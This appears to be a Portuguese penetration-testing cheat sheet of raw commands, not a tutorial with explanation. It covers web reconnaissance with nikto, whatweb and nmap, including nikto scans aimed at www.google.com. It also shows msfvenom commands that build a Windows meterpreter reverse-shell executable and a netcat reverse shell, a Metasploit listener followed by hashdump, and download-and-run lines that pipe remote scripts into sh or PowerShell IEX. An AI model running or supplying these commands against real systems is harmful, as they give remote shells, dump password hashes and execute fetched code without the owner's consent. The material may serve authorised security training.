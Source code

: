 
**HTTP/HTTPS**
wafw00f
curl --head www.smaff.com.br
whatweb www.smaff.com.br

```
nikto -h 192.168.10.107


nikto -h www.google.com -Tuning x
nikto -h www.google.com -Cgidirs all
nikto -h www.google.com -o nikto_scan_results -F txt
```


nmap -sV --script=http-enum

**Criando Payloads com o Msfvenom**
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.10.2 lport=4321 --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" -f exe -o meumalvadofavorito.exe

msfvenom -p cmd/unix/reverse_netcat LHOST=ip LPORT=4244

**Colocando a máquina para escutar**
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.10.2
set lport 4321
exploit

getuid
hashdump
ps


**LinPEAS**
https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
Comando: `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`

**WinPEAS**
Comando: `powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"`

## Exploração

Montando diretórios NFS
Comando: `mount -t nfs -o vers=3 192.168.200.124:/var/nfs/general /mnt`

## Pós Exploração

Pesquisando por arquivos
find . -name nomeArquivo

Verificar informações sobre o sistema
Exibe detalhes do kernel
uname -a
